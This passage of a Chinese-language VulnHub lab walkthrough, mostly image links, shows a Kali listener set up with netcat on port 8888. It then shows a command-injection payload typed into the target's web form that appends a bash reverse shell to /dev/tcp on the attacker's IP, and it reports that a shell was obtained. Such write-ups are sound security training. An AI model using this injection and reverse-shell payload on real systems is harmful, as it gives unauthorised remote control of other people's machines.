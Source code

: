 ![image-20241207163256977](vulnhub靶场实战/image-20241207163256977.png)	

```
于是kali开始监听端口
nc -lvvp 8888
在靶机的web多执行一个反弹shell.
127.0.0.1;bash -i>&/dev/tcp/192.168.15.135/8888 0>&1
```

![image-20241207163434325](vulnhub靶场实战/image-20241207163434325.png)	

```
于是获得了shell。
```

![image-20241207163450365](vulnhub靶场实战/image-20241207163450365.png)	
